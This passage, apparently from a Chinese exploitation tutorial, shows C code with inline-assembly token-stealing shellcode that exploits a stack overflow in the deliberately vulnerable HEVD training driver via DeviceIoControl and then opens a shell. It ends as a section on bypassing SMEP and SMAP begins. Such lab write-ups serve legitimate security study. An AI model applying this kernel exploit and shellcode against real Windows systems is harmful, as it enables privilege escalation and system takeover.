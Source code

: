 ```
        return -1;
    }
    printf("Done! Device Handle:0x%p\n",dev);
    CHAR* chBuffer;
    int chBufferLen = 0x824;
    chBuffer = (CHAR*)malloc(chBufferLen);
    ZeroMemory(chBuffer, chBufferLen);
    memset(chBuffer, 0x41, chBufferLen-4);
    CHAR* p =(CHAR*)VirtualAlloc(0, 0x60, 0x3000, 0x40);
    ZeroMemory(p, 0x60);
    __asm {
        pushad;
        mov edi, p;
        mov [edi], 0x60;
        mov dword ptr [edi + 0x1], 0x8B64C031;
        mov dword ptr [edi + 0x5], 0x00012480;
        mov dword ptr [edi + 0x9], 0x50408B00;
        mov dword ptr [edi + 0xD], 0x04BAC189;
        mov dword ptr [edi + 0x11], 0x8B000000;
        mov dword ptr [edi + 0x15], 0x0000B880;
        mov dword ptr [edi + 0x19], 0x00B82D00;
        mov dword ptr [edi + 0x1D], 0x90390000;
        mov dword ptr [edi + 0x21], 0x000000B4;
        mov dword ptr [edi + 0x25], 0x908BED75;
        mov dword ptr [edi + 0x29], 0x000000F8;
        mov dword ptr [edi + 0x2D], 0x00F89189;
        mov dword ptr [edi + 0x31], 0x31610000;
        mov dword ptr [edi + 0x35], 0x08C25DC0;
        mov eax, chBuffer;
        mov[eax + 0x820], edi;
        popad;
    }
    DWORD size_returned = 0;
    BOOL is_ok = DeviceIoControl(dev,HEVD_IOCTL_BUFFER_OVERFLOW_STACK,chBuffer,chBufferLen,NULL,0,&size_returned,NULL);
    CloseHandle(dev);
    system("cmd.exe");
    system("pause");
    return 0;
} 
```

成功：

 

![](https://bbs.pediy.com/upload/attach/202106/817966_ZQPERDK9FVVCD5F.jpg)

0x03 Bypass SMEP & SMAP
-----------------------

SMEP(Supervisor Mode Execution Prevention) 由 Intel lvy Bridge 引入，从 Windows 8 开始启用该特性，其作用在于禁止 RING-0 执行用户空间代码，而 SMAP(Supervisor Mode Access Prevention) 由 Intel Broadwell 引入，相较 SMEP 增加读与写保护：
